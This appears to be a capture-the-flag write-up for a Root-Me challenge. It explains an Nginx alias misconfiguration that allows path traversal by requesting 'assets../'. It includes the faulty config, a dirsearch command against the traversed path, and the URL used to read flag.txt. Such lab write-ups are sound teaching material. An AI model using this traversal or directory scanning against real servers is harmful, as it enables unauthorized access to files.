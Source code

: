 # Challenge15: 

## Ref

    + https://davidhamann.de/2022/08/14/nginx-alias-traversal/

## Nginx - Alias Misconfiguration

    1. Open Burp Suite and Go to the target url: http://challenge01.root-me.org:59092
    2. In the Burp Suite "Target" window, you can see there are 3 GET requests to:
        + /static/main.js
        + /assets (but not /assets/ :) )
        + /
    3. So thanks to the ref above, we can exploit the assets path like this:

```
assets../
```

    => The reason why we can exploit assets path like this is the nginx alias may look like this:

```
location /assets {
    alias /var/www/webapp/static/;
}

```
    => So when we request to "assets../", the path will translated to: "/var/www/webapp/static/../"

    4. So now we can access the main folder. Use the __dirsearch__ cmd to find the password:

```
dirsearch -u http://challenge01.root-me.org:59092/assets../
```

    5. The password store in flag.txt file:

```
http://challenge01.root-me.org:59092/assets../flag.txt
```
